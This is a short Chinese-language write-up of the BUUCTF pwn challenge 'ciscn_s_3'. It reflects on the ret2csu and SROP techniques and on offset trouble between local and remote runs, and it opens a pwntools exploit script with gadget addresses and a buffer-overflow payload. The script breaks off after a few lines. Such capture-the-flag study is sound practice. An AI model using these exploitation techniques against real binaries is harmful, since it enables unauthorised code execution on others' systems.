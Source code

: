 ![[Pasted image 20240916150119.png]]

![[Pasted image 20240916170743.png]]

收获一：
我学到了如何使用ret2csu的打法，以及使用的场景，在这题中是依靠设置好的pop值，然后再move到相应的rdx,rsi,edi中，再调用call，然后设置rax值，然后传bin/sh值，再syscall。

![[Pasted image 20240917215003.png]]

![[Pasted image 20240917215030.png]]
#-----------------------------------------------------------------------------------------------------------------



感悟：这一题我看到的时候就感觉打ret2libc的可能性不大，试了一下果然打不通，然后就感觉是srop，因为看汇编里面有syscall，然后感觉ret2csu也可以，因为改一下寄存器的值就可以实现调用，但是在这一题里面我对srop的理解及细节更上了一程，这一题和simple_srop的题目有一点相似，但是细节方面还是有很多需要注意的。

srop遇到的问题：
但是奇怪的是我自己算的偏移srop打远程打不通，我算的打本地能打通，我用的网上的偏移能打通远程，但是本地又打不通，很奇怪。


#### ret2csu代码：

```
#coding:utf-8

from pwn import *

context.arch='amd64'

# p=remote('node5.buuoj.cn',29919)

p=process("./ciscn_s_3")

elf=ELF('./ciscn_s_3')

# context.terminal = ['tmux']

  

gadget=0x4004e2

syscall=0x400517

vuln=0x4004ED

pop6=0x40059a

mov=0x400580

  

rdi=0x4005a3

  

p.send(b'a'*0x10+p64(vuln))

# attach(p)

# Gadgets information

# ============================================================

```